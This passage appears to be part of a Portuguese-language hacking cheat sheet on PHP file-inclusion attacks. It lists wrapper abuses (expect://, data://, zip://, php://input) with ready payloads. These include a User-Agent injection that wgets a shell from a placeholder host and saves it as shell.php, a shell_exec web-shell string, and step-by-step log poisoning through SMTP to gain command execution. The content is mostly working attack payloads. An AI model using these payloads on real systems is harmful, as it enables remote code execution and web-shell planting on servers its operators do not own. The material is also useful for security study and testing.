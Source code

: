 user-agent-ex: `<?system('wget http://algum-site/shell.txt -O shell.php');?>`

### => PHP://expect

Permite ao atacante executar comandos de sistema diretamente do vetor de ataque. Por infelicidade, esta função é desabilitada por padrão.

ex: **http://localhost/x.php?param=expect://ls**

uma mensagem de erro será exibida caso esteja desabilitada.

### => PHP://data

Também permite ao atacante executar comandos de sistema diretamente do vetor de ataque.

ex: `http://localhost/x.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>`

### => PHP://zip

Permite ao usuário realizar a descompressão de arquivos zipados no servidor.

1. Crie uma shell php

2. Comprima em um arquivo Zip

3. Envie a shell comprimida em ZIP para o servidor alvo

4. Extraia usando `php?page=zip://path/do/arquivo.zip%23shell`


### => PHP://input

Permite ao usuário enviar uma requisição POST com o conteúdo de uma shell reversa em seu corpo.

ex: `/page/?page=php://input&cmd=ls`

## => Envenenamento de Log

Em casos específicos, é possivel realizar execução de código remoto infectando um arquivo de log específico, seja ele um serviço de e-mail ou o log do próprio servidor. O processo consiste em enviar o payload como corpo de uma requisição e em seguida usar deste log para obter a execução do código, haja vista que após a requisição, o código estará no corpo do arquivo de log.

**EX: **

1. Encontramos o vetor de ataque, como um serviço de email.

2. enviamos nosso payload via corpo, ex. SMTP ==> `<?php echo system($_GET["shell"]);?>`

3. acessamos a página de log ( /var/log/ALGUMLOG)

4. utilizamos de tal log para execução da shell. ex: **../../../../../var/log/mail&shell=ls**


## Referências

The Web Application Hacker’s Handbook: Finding and Exploiting Security Flaws, Second Edition(2011)

PHP wrappers 	manual documentation